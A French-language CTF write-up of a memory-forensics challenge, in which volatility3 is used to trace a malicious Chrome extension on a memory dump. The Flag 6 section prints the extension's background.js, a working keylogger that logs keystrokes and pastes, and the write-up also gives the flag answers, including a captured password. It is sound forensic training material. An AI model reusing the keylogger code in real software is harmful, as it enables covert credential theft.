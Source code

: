 # Stealth Invasion
### Selene's normally secure laptop recently fell victim to a covert attack. Unbeknownst to her, a malicious Chrome extension was stealthily installed, masquerading as a useful productivity tool. Alarmed by unusual network activity, Selene is now racing against time to trace the intrusion, remove the malicious software, and bolster her digital defenses before more damage is done.

Lorsque que nous ouvrons le challenge, on est directement confronté à un fichier **memdump.elf**. Il n'y a pas à chercher très loin ce qu'il faut faire.

Je lance alors volatility3, puis j'éxécute : `python3 vol.py -f memdump.elf windows.info` pour obtenir quelques informations basiques.

![imageinfo](https://github.com/user-attachments/assets/55e85d2d-3a48-4bc0-a0b2-0f6d6c2c2456)

### Flag 1 : What is the PID of the original Google Chrome process ?

Ici, une simple commande :
```bash
python3 vol.py -f memdump.elf windows.pslist | grep 'chrome.exe'
``` 
Nous permet d'avoir cela : 

![image chrome](https://github.com/user-attachments/assets/1d74d818-e5be-40cd-865b-9ed4c2b8e3a8)

### Flag 2 : What is the only folder on the Desktop ?

Cette fois on fouille un peu dans les fichiers avec :
```bash 
python3 vol.py -f memdump.elf windows.filescan | grep '\Desktop'
``` 
Pour trouver : 

![desktop](https://github.com/user-attachments/assets/a324da96-43e1-44f2-9ec3-ebef76df7d24)

### Flag 3 : What is the Extention's ID ?

Pour trouver l'ID de l'extension, il suffit de regarder dans le dossier "Default" de Google Chrome ou tout les IDs d'extensions sont stockés. On fait ça avec 
```bash
python3 vol.py -f memdump.elf windows.filescan | grep '\Users\selene\AppData\Local\Google\Chrome\User Data\Default\'
```
![id](https://github.com/user-attachments/assets/29b52914-ea50-4771-b623-3add44fa8266)

### Flag 4 : After examining the malicious extention's code, what is the log filename in which the datais stored ?

Bon, pour celui la, on pourrait dump l'extension pour l'étudier, mais étant donné que la commande d'avant nous à révéler un fichier `000003.log`, il ne faut pas vraiment chercher plus loin que ça.

### Flag 5 : What is the URL the user navigated to ?

Maintenant que nous savons ou est le fichier de log, nous pouvons le dump.
```bash
python3 vol.py -f memdump.elf windows.dumpfiles –virtaddr 0x708caba14d0 
```
![logg](https://github.com/user-attachments/assets/887d8bc8-a817-45f2-be3f-db036c1fe9d1)
Mais le fichier étant difficilement lisible, j’ai directement dump le fichier History
de Google  
![history google](https://github.com/user-attachments/assets/818eda20-ef27-4354-a759-c8078fcc69d1)
Le fichier étant une database, pour voir la dernière URL il suffit juste de faire une simple requête SQL : 
```sql
SELECT url, title, visit_count, last_visit_time FROM urls ORDER BY last_visit_time DESC;
```
Ou alors simplement de lire le fichier avec DB Browser  

![last url](https://github.com/user-attachments/assets/81a67d84-0fe4-4acc-a650-b1ed4b9bf2d9)

### Flag 6 : What is the password of selene@rangers.eldoria.com ?
Il est temps de plongé plus profondément dans cet extension malfaisante. On va dump tout ce qui la concerne pour analyser tout ça.  

![dumpaa](https://github.com/user-attachments/assets/552d1745-f44f-461a-9a2b-a4dac9074d04)
![flag6num2](https://github.com/user-attachments/assets/498c9a01-67dd-429d-9f05-c459f5eb441b)
 

Après analyse, on voit que le fichier background.js est un **keylogger** qui ajoute `\r\n` dans les logs à chaque fois que quelque chose est copié ou que la touche entrée est préssé : 
```javascript
function addLog(s) {
    
    if (s.length != 1 && s !== "Enter" && !s.startsWith("PASTE"))  {
        s = `|${s}|`;
    } else if (s === "Enter" || s.startsWith("PASTE")) {
        s = s + "\r\n";
    }

    chrome.storage.local.get(["log"]).then((data) => {
        if (!data.log) {
            data.log = "";
        }

        data.log += s;

        chrome.storage.local.set({ 'log': data.log });
    });
}


chrome.runtime.onConnect.addListener((port) => {

    console.assert(port.name === "conn");
    console.log("v1.2.1");

    port.onMessage.addListener( ({ type, data }) => {
        if (type === 'key') {
            addLog(data);
        } else if (type == 'paste') {
            addLog('PASTE:' + data);
        }
    });
});

chrome.runtime.onMessage.addListener(
    function(request, sender, sendResponse) {
        if (request.check === "replace_html" && chrome.storage.local.get("replace_html")) {
            sendResponse({ url: chrome.storage.local.get('replace_html_url')});
        }
    }
);
```
On dump alors le fichier de log, un peu de tri pour le rendre lisible plus facilement, et puis :   

![log file](https://github.com/user-attachments/assets/b26627c4-e280-447c-9d05-7bbb54392511)

On voit finalement le mot de passe **`clip-mummify-proofs`** à la fin du fichier.

Et avec ça, cela nous fait 6/6 flags. Donc le challenge est complété !
